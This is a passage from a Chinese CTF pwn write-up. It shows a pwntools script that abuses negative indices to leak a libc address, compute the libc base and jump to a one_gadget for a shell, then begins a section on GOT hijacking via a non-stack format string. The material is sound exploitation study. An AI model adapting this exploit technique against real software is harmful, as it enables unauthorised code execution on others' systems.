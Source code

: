 ```bash
    context.arch = 'i386'

#p=remote('node5.anna.nssctf.cn',28573)
p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

start=elf.sym["_start"]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(start))
#duan()
ru('one.\n')
sl('-7')
ru("name\n")
s('\xc0')
r(13)

read_addr=u64(r(6).ljust(8,b'\x00'))
libc_base=read_addr-libc.symbols['read']
leak('libc_base ',libc_base)

ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[1]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(og))
itr()
```

## 非栈上格式化字符串劫持 GOT 表

### 青少年 ctf login

[![](assets/1701678450-743f4972912724b6c25eba8d652b35d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210944-90a408ea-8eb8-1.png)  
这里也是可以修改 got 表  
ida  
[![](assets/1701678450-8aef9aefaa4572ee12c137a39aee79bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210954-96a6acca-8eb8-1.png)
